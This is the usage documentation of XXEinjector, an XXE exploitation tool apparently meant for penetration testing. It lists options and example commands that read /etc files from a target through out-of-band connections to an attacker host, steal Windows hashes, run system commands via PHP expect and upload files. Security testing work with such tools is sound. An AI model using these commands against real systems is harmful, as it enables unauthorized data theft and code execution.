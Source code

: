 XXEinjector by Jakub Palaczynski

XXEinjector automates retrieving files using direct and out of band methods. Directory listing only works in Java applications. Bruteforcing method needs to be used for other applications.

Options:<br />
  --host	Mandatory - our IP address for reverse connections. (--host=192.168.0.2)<br />
  --file	Mandatory - File containing valid HTTP request with xml. You can also mark with "XXEINJECT" a point where DTD should be injected. (--file=/tmp/req.txt)<br />
  --path	Mandatory if enumerating directories - Path to enumerate. (--path=/etc)<br />
  --brute	Mandatory if bruteforcing files - File with paths to bruteforce. (--brute=/tmp/brute.txt)<br />

  --oob		Out of Band exploitation method. FTP is default. FTP can be used in any application. HTTP can be used for bruteforcing and enumeration through directory listing in Java < 1.7 applications. Gopher can only be used in Java < 1.7 applications. (--oob=http/ftp/gopher)<br />
  --direct  Use direct exploitation instead of out of band. Unique mark should be specified as a value for this argument. This mark specifies where results of XXE start and end. Specify --xml to see how XML in request file should look like. (--direct=UNIQUEMARK)<br />
  --phpfilter		Use PHP filter to base64 encode target file before sending.<br />
  --enumports		Enumerating unfiltered ports for reverse connection. Specify value "all" to enumerate all TCP ports. (--enumports=21,22,80,443,445)<br />

  --hashes	Steals Windows hash of the user that runs an application.<br />
  --expect	Uses PHP expect extension to execute arbitrary system command. Best works with HTTP and PHP filter. (--expect=ls)<br />
  --upload	Uploads specified file using Java jar schema into temp file. (--upload=/tmp/upload.txt)<br />
  --xslt	Tests for XSLT injection.<br />

  --ssl		Use SSL.<br />
  --proxy	Proxy to use. (--proxy=127.0.0.1:8080)<br />
  --httpport	Set custom HTTP port. (--httpport=80)<br />
  --ftpport	Set custom FTP port. (--ftpport=21)<br />
  --gopherport	Set custom gopher port. (--gopherport=70)<br />
  --jarport	Set custom port for uploading files using jar. (--jarport=1337)<br />
  --xsltport	Set custom port for XSLT injection test. (--xsltport=1337)<br />

  --urlencode	URL encode injected DTD. This is default for URI.<br />
  --nodtd	If you want to put DTD in request by yourself. Specify "--dtd" to show how DTD should look like.<br />
  --output Output file for bruteforcing and logger mode. By default it logs to brute.log in current directory. (--output=/tmp/out.txt)<br />
  --timeout	Timeout for receiving file/directory content. (--timeout=20)<br />
  --fast	Skip asking what to enumerate. Prone to false-positives.<br />
  --verbose	Show verbose messages.<br />

Example usage:<br />
  Enumerating /etc directory in HTTPS application:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --ssl<br />
  Enumerating /etc directory using gopher for OOB method:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --oob=gopher<br />
  Bruteforcing files using HTTP out of band method:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --brute=/tmp/filenames.txt --file=/tmp/req.txt --oob=http<br />
  Enumerating using direct exploitation:<br />
  ruby XXEinjector.rb --file=/tmp/req.txt --path=/etc --direct=UNIQUEMARK<br />
  Enumerating unfiltered ports:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --enumports=all<br />
  Stealing Windows hashes:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --hashes<br />
  Uploading files using Java jar:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --upload=/tmp/uploadfile.pdf<br />
  Executing system commands using PHP expect:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --oob=http --phpfilter --expect=ls<br />
  Testing for XSLT injection:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --xslt<br />
  Log requests only:<br />
  ruby XXEinjector.rb --logger --oob=http --output=/tmp/out.txt<br />
